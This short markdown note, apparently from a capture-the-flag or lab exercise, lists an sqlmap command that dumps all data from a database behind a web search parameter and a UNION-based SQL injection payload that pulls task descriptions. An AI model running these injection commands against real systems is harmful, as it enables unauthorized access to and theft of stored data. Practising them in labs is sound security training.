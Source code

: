 # Using SQL map

sqlmap -u cyberhacktivators.club:33010?term=1 -a

# Using Union based sql
' Union select description from tasks --'
